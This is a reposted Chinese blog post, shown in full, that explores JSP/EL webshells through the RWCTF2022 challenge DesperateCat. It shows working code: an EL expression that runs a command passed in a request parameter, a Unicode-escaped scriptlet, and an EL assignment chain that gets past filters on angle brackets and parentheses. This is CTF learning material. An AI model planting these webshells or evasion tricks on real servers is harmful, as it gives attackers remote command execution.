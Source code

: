 # 转载
：  webshell初探

# webshell初探

通过RWCTF2022的一道web联想到的EL webshell简单实现与混淆

**目录**

[0x0 RWCTF引发的思考](#0x0%20RWCTF%E5%BC%95%E5%8F%91%E7%9A%84%E6%80%9D%E8%80%83)

[0x01 简单尝试与回显问题](#0x01%20%E7%AE%80%E5%8D%95%E5%B0%9D%E8%AF%95%E4%B8%8E%E5%9B%9E%E6%98%BE%E9%97%AE%E9%A2%98)

[0x02 EL + ScriptEngine](#0x02%20EL%20%2B%20ScriptEngine)

[0x03 进一步混淆](#0x03%20%E8%BF%9B%E4%B8%80%E6%AD%A5%E6%B7%B7%E6%B7%86)

[0x04 总结](#0x04%20%E6%80%BB%E7%BB%93)

[免费领取安全学习资料包！（私聊进群一起学习，共同进步）​编辑](#%E5%85%8D%E8%B4%B9%E9%A2%86%E5%8F%96%E5%AE%89%E5%85%A8%E5%AD%A6%E4%B9%A0%E8%B5%84%E6%96%99%E5%8C%85%EF%BC%81%EF%BC%88%E7%A7%81%E8%81%8A%E8%BF%9B%E7%BE%A4%E4%B8%80%E8%B5%B7%E5%AD%A6%E4%B9%A0%EF%BC%8C%E5%85%B1%E5%90%8C%E8%BF%9B%E6%AD%A5%EF%BC%89%E2%80%8B%E7%BC%96%E8%BE%91)

---


## 0x0 RWCTF引发的思考

​ 前段时间结束的Realworld ctf里有一道题目**DesperateCat**，这道题目考察的是严苛环境下写webshell的问题，对于写入文件内容的限制其中有一点：

​ 如果我们单独处理bypass，那么其实很好解决：
1. 尖括号 &lt;% %&gt;：使用EL表达式
```
//&lt;%Runtime.getRuntime.exec(request.getParameter("cmd"));%&gt;
//替换成为
${Runtime.getRuntime().exec(param.cmd)}

```

这样就避免出现了尖括号。

2.圆括号 () : java 代码编译解析器会识别 Unicode 形式的编码，所可以直接unicode

```
//&lt;%Runtime.getRuntime().exec("calc");%&gt;
&lt;%\u0052\u0075\u006e\u0074\u0069\u006d\u0065\u002e\u0067\u0065\u0074\u0052\u0075\u006e\u0074\u0069\u006d\u0065\u0028\u0029\u002e\u0065\u0078\u0065\u0063\u0028\u0022\u0063\u0061\u006c\u0063\u0022\u0029\u003b%&gt;

```

但是要完全bypass，显然两者都是不行的，那么最终的方式是采用EL表达式中的 **'.'** 与 **'='** 。

```
${pageContext.servletContext.classLoader.resources.context.manager.pathname=param.a}
//等同于
pageContext.getServletContext().getClassLoader().getResources().getContext().getManager().setPathname(request.getParameter("a"));

```
